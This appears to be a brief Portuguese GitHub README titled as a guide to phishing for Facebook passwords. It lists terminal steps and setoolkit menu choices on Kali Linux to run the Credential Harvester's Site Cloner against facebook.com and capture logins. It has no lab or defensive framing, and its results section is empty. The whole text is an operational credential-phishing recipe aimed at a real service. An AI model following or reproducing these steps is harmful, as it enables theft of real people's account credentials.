

# Phishing para captura de senhas do Facebook  

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- kali Linux entra no terminal com ``` sudo su ```
- Executar setookit: ``` setoolkit ```
- Escolher primeira opção: ``` 1)Social-Engineering Attacks ```
- Agora segunda opção: ``` 2)Web Site Attack Vectors ```
- Selecionar opção: ``` 3)Credential Harvester Attack Method ```
- Agora clonar o site opção: ``` 2)Site Cloner ```
- Verificar o ip da maquina para escutar: ``` ifconfig ```
- Agora clone o site no set:webattack> Enter the url to clone: http://www.facebook.com

### Resutados


